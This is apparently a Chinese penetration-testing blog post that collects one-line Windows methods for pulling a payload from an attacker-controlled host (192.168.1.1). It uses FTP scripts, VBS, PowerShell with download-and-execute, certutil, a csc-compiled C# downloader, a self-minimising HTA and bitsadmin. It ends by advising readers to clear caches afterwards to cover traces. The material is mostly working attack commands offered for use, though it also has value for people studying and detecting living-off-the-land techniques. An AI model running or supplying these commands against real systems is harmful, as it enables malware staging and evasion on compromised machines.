 ```yaml
---
title: "一句话下载姿势总结"
date: 2019-05-23T14:11:16+08:00
draft: false
tags: ['shell','download']
categories: ['渗透测试']
---
```


在上一篇文章中，提到了下载shell的一些姿势，我们这篇文章来深入探究下。

<!--more-->

## ftp

```bash
echo open 192.168.1.1 21> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo ftp>> ftp.txt
echo GET 1.exe >> ftp.txt
ftp -s:ftp.txt
```

需要搭建ftp服务器，初次使用ftp下载防火墙会弹框拦截，使用前记得要先添加防火墙规则

## vbs

vbs downloader,使用msxml2.xmlhttp和adodb.stream对象

```vbscript
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://192.168.1.1/1.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "C:\test\1.exe",2
```

## powershell

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1.exe','C:\test\1.exe');start-process 'C:\test\1.exe'
```

## certutil

保存在当前路径，文件名称同URL

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.exe
```

保存在当前路径，指定保存文件名称

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.txt 1.php
```

使用downloader默认在缓存目录位置： `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`保存下载的文件副本

命令行删除缓存

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.exe delete
```

查看缓存项目：

```
certutil.exe -urlcache *
```

## csc

csc.exe是微软.NET Framework 中的C#编译器，Windows系统中默认包含，可在命令行下将cs文件编译成exe

download.cs

```c#
using System.Net;
namespace downloader
{
    class Program
    {
        static void Main(string[] args)
        {
            WebClient client = new WebClient();
            string URLAddress = @"http://192.168.1.1/1.exe";
            string receivePath = @"C:\test\";
            client.DownloadFile(URLAddress, receivePath + System.IO.Path.GetFileName
        (URLAddress));
        }
    }
}
```

```bash
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:C:\tes
t\download.exe C:\test\download.cs
```

## hta

添加最小化和自动退出hta程序的功能，执行过程中会最小化hta窗口，下载文件结束后自动退出hta程序

将以下代码保存为hta文件

```html
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.1.1/1.exe",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test\\1.exe", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION
WINDOWSTATE = "minimize">
</head>
<body>
</body>  
</html>
```

## bitsadmin

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。xp以后的Windows系统自带

```bash
bitsadmin /transfer n http://192.168.1.1/1.exe  C:\test\update\1.exe
```

**不支持https、ftp协议，php python带的服务器会出错**

---

写在文后，推荐使用powershell或certutil，但是记得清理缓存。